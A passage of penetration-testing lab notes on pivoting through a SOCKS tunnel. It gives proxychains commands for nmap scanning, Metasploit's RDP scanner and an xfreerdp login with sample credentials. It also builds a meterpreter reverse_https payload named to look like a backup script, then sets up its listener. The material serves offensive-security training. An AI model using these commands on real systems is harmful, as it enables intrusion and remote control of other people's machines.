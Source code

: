 This part of packing all your Nmap data using proxychains and forwarding it to a remote server is called SOCKS tunneling. One more important note to remember here is that we can only perform a full TCP connect scan over proxychains. The reason for this is that proxychains cannot understand partial packets. If you send partial packets like half connect scans, it will return incorrect results. We also need to make sure we are aware of the fact that host-alive checks may not work against Windows targets because the Windows Defender firewall blocks ICMP requests (traditional pings) by default.

[A full TCP connect scan](https://nmap.org/book/scan-methods-connect-scan.html) without ping on an entire network range will take a long time. So, for this module, we will primarily focus on scanning individual hosts, or smaller ranges of hosts we know are alive, which in this case will be a Windows host at 172.16.5.19. We will perform a remote system scan using the below command.

### Enumerating the Windows Target through Proxychains
```
proxychains nmap -v -Pn -sT 172.16.5.19
```

### Using Metasploit with Proxychains
```
proxychains msfconsole
```
Let's use the rdp_scanner auxiliary module to check if the host on the internal network is listening on 3389.

### Using rdp_scanner Module
```
search rdp_scanner
use 0
set rhosts 172.16.5.19
run
```
Depending on the level of access we have to this host during an assessment, we may try to run an exploit or log in using gathered credentials. For this module, we will log in to the Windows remote host over the SOCKS tunnel. This can be done using xfreerdp. The user in our case is victor, and the password is pass@123

### Using xfreerdp with Proxychains
```
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Remote/Reverse Port Forwarding with SSH

### Creating a Windows Payload with msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

### Configuring & Starting the multi/handler
```
use exploit/multi/handler
```
Once our payload is created and we have our listener configured & running, we can copy the payload to the Ubuntu server using the scp command since we already have the credentials to connect to the Ubuntu server using SSH.
